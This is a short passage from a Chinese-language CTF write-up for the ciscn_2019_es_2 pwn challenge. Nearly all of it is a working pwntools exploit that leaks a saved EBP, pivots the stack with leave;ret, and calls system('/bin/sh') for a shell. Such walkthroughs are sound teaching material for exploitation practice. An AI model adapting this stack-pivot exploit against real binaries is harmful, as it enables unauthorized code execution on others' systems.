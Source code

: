 > 泄露出`s`在栈上的偏移地址

![image-20231225124013883](../assets/img/old_imgs/image-20231225124013883.png)

> 完成栈迁移

```python 
from pwn import *
#context.log_level = 'debug'
io = process('./ciscn_2019_es_2')
#io = gdb.debug('./ciscn_2019_es_2','break *vul')
elf = ELF('./ciscn_2019_es_2')
printf_plt = elf.plt['printf']
printf_got = elf.got['printf']
offset = 0x28
payload1 = b'A'*offset
io.sendafter(b"Welcome, my friend. What's your name?\n",payload1)
io.recvuntil(b'Hello,')
io.recvuntil(b'A'*0x28)
old_ebp = u32(io.recv(4))
s_addr = ebp_addr = old_ebp-0x10-offset
print('old_ebp -> ',hex(old_ebp))
print('s_addr -> ',hex(ebp_addr))
#pause()
payload2 = p32(0)+p32(elf.plt['system'])+p32(0)+p32(s_addr+0x10)+b'/bin/sh\x00' #`\x00`截断
#32位程序中参数在函数的后0x10位置,所以填充p32(0)
payload2 = payload2.ljust(0x28,b'A')
payload2 += p32(s_addr)+p32(0x08048562) #填充满栈空间,用p32(s_addr)+p32(0x08048562)劫持`leave`完成迁移并填充上新的`leave&ret`
io.send(payload2)
io.interactive()
```
